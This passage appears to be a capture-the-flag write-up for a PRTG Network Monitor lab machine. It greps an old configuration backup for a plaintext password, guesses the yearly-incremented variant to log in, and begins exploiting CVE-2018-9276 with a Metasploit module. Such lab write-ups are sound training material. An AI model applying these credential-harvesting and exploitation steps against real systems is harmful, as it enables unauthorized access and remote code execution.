 Search credentials in the file.
```
┌──(kali㉿kali)-[~]
└─$ grep -B5 -A5 password ./PRTG\ Configuration.old.bak | sed 's/ //g' |  sort -u | less
```

We can find the string that can be guessed as a password.
```
<proxyport>
        PrTg@dmin2018
PRTGSystemAdministrator
<retrysnmp>
        <!--User:prtgadmin-->
</wbemprotocol>
```

Check the file.
```
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>
```

However, we cannot log in to PRTG with this credential (prtgadmin / PrTg@dmin2018).   
I confirmed the write-up [1] again, and it turns out that I should have guessed that the password would be changed annually.  
Following this information, we can log in to PRTG with the credential (prtgadmin / PrTg@dmin201**9**).

![](2022-10-23-17-22-30.png)

### Exploits CVE-2018-9276
Let's try to exploit CVE-2018-9276.
We can use metasploit module for CVE-2018-9276.  
https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/http/prtg_authenticated_rce
```
use exploit/windows/http/prtg_authenticated_rce
```
